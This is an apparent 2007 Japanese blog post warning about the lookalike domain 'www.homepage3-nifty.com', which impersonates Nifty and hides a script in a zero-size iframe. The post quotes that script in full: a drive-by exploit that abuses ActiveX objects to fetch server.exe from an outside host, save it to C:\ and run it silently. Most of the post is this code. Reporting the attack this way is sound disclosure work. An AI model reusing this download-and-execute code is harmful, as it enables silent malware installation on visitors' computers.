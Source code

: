 ```yaml
---
title: 「www.homepage3-nifty.com」という、niftyに偽装したサイトが登場
author: hylom
type: post
date: 2007-01-02T19:39:12+00:00
url: /2007/01/03/20070102-193912/
categories:
  - Slashdot

---
```

タイトル通り。  
</br>   
「www.homepage3-nifty.com」と、URLだけみるとぱっと見nifty内にあるサイトっぽいけど、実はよく見ると分かるとおりnifty内ではなく、中国のサイトにつながるようで。</br>  
</br>   
で、このサイト上にあるページには幅0、高さ0のインラインフレームに以下のようなスクリプトを仕込んだページを表示させる、と。</br>   
よく考えるよなぁ。確かにこのURLだとダマされる人が出てくるかも。 

> <div>
>   <tt> function do1(mx&#44;as&#44;p) </tt>
> </div>

</br>   
{</br>   
&nbsp; &nbsp; mx.Send();</br>   
&nbsp; &nbsp; as.Type = 1;</br>   
&nbsp; &nbsp; as.Open();</br>   
&nbsp; &nbsp; as.Write(mx.responseBody);</br>   
&nbsp; &nbsp; as.SaveToFile(p&#44;2);</br>   
&nbsp; &nbsp; as.Close();</br>   
}</br>   
var a = null;</br>   
var mx&#44;as&#44;p;</br>   
p = &#8220;C:\\pageflies2.exe&#8221;</br>   
a = (document.createElement(&#8220;object&#8221;));</br>   
a.setAttribute(&#8220;classid&#8221;&#44;&#8221;clsid:BD96C556-65A3-11D0-983A-00C04FC29E36&#8221;);</br>   
try{mx = a.CreateObject(&#8220;Microsoft.XMLHTTP&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(!mx)try{mx = new ActiveXObject(&#8220;Microsoft.XMLHTTP&#8221;);}catch(e){};</br>   
try{as = a.CreateObject(&#8220;Adodb.Stream&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(as){</br>   
&nbsp; &nbsp; mx.Open(&#8220;GET&#8221;&#44;&#8221;http://www.game-oekakibbs.com/bbs/server.exe&#8221;&#44;0);</br>   
&nbsp; &nbsp; do1(mx&#44;as&#44;p);</br>   
&nbsp; &nbsp; var r;</br>   
&nbsp; &nbsp; try{r = a.CreateObject(&#8220;Shell.Application&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; if(r)</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; r.ShellExecute(p&#44;&#8221;&#8221;&#44;&#8221;&#8221;&#44;&#8221;open&#8221;&#44;0);</br>   
&nbsp; &nbsp; }else</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; try{r = a.CreateObject(&#8220;WScript.Shell&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; &nbsp; &nbsp; if(r)r.Run(p&#44;0);</br>   
&nbsp; &nbsp; }</br>   
}</br>
